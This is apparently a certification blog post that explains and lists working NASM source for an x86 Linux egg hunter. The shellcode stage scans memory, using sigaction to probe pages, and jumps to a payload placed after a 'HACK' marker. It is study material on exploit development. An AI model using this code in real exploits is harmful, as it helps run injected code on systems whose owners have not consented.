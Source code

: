 # 3. Egg Hunter (linux/x86)

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-1568

## Task

The task is to create a demo of an egg hunter that will locate and execute a shellcode payload for Linux on the x86 architecture. The goal is to avoid null bytes while making the egg hunter as small as possible.

Additionally, it should be easy to change the payload used in the demo.

## Solution

The solution is based on the [egg hunter](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf) written by Matt Miller. The egg hunter will search through the virtual address space looking for an "egg string" reapeated twice. It will then continue execution after this signature.

The "egg string" is defined at the top of the NASM source of the egg hunter:

```nasm
global _start

egg equ 0x4b434148  ; "HACK" in ASCII (little endian)
```

The egg hunter will align to a page boundary and use the [sigaction](https://man7.org/linux/man-pages/man2/sigaction.2.html) system call to check if the memory at that location is readable. This is possible because the system call will verify 16 bytes of memory at the location pointed to by the ECX register. If the memory is not readable, it will continue to the next memory page and repeat this process:

```nasm
section .text

_start:
    ; Align ECX to page boundary (page size = 4096). We don't care about the initial value of ECX (it'll wrap around).
    or cx, 0xfff
continue:
    inc ecx
    
    ; Call 'sigaction' to check read access of memory.
    ; int sigaction(int signum, const struct sigaction *act, struct sigaction *oldact): syscall 0x43
    ;     sigaction(whatever, memory_address, whatever)
    push 0x43
    pop eax
    int 0x80
    
    ; Check if EFAULT (= 14 -> -14 = 0xf2) is returned. If that's the case, move on to the next page.
    cmp al, 0xf2
    je _start
```

The egg hunter will then do a string comparison of the current memory location and the repeated "egg string". If there is a match, execution will continue after this signature where the payload should be placed:

```nasm
    ; Compare the current four bytes of memory to the egg. If it doesn't match, move on to the next address.
    mov eax, egg
    mov edi, ecx
    scasd
    jne continue
    
    ; Compare the next four bytes of memory to the egg. If it doesn't match, move on to the next address.
    scasd
    jne continue
    
    ; We found the egg! Jump to the payload following it.
    jmp edi
```
